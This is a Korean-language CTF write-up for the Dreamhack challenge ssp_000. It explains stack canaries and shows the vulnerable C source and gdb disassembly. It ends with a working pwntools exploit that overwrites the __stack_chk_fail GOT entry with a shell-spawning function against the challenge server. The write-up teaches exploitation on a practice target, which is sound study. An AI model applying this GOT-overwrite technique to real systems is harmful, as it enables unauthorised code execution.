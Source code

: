 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN ssp_000"
excerpt: "드림핵 포너블 ssp_000 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-19 16:30
---
```


이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.

우선 먼저 코드를 살펴보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.

다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.

우선 main함수의 어셈블리를 확인해보자

```c
   0x00000000004008fb <+0>:     push   rbp
   0x00000000004008fc <+1>:     mov    rbp,rsp
   0x00000000004008ff <+4>:     sub    rsp,0x70
   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400917 <+28>:    xor    eax,eax
   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
   0x000000000040091d <+34>:    mov    eax,0x0
   0x0000000000400922 <+39>:    mov    ecx,0x8
   0x0000000000400927 <+44>:    mov    rdi,rdx
   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
   0x000000000040092d <+50>:    mov    eax,0x0
   0x0000000000400932 <+55>:    call   0x40088e <initialize>
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
   0x000000000040094d <+82>:    mov    edi,0x400a55
   0x0000000000400952 <+87>:    mov    eax,0x0
   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
   0x0000000000400960 <+101>:   mov    rsi,rax
   0x0000000000400963 <+104>:   mov    edi,0x400a5d
   0x0000000000400968 <+109>:   mov    eax,0x0
   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400972 <+119>:   mov    edi,0x400a61
   0x0000000000400977 <+124>:   mov    eax,0x0
   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
   0x0000000000400985 <+138>:   mov    rsi,rax
   0x0000000000400988 <+141>:   mov    edi,0x400a5d
   0x000000000040098d <+146>:   mov    eax,0x0
   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
   0x000000000040099b <+160>:   mov    rdx,rax
   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
   0x00000000004009a5 <+170>:   mov    eax,0x0
   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
   0x00000000004009be <+195>:   leave  
   0x00000000004009bf <+196>:   ret
```

우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.

```c
pwndbg> disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004008ea <+0>:     push   rbp
   0x00000000004008eb <+1>:     mov    rbp,rsp
   0x00000000004008ee <+4>:     mov    edi,0x400a4d
   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
   0x00000000004008f8 <+14>:    nop
   0x00000000004008f9 <+15>:    pop    rbp
   0x00000000004008fa <+16>:    ret    
End of assembler dump.
```

```c
pwndbg> disass 0x4006d0
Dump of assembler code for function __stack_chk_fail@plt:
   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
   0x00000000004006d6 <+6>:     push   0x1
   0x00000000004006db <+11>:    jmp    0x4006b0
End of assembler dump.
```

get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 22697);

stackChkFail = 0x601020
getShell = 0x4008ea

paylaod = "\x90"*0x50

c.send(paylaod)
c.sendlineafter(b"Addr : ", str(stackChkFail))
c.sendlineafter(b"Value : ", str(getShell))

c.interactive()
```

간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.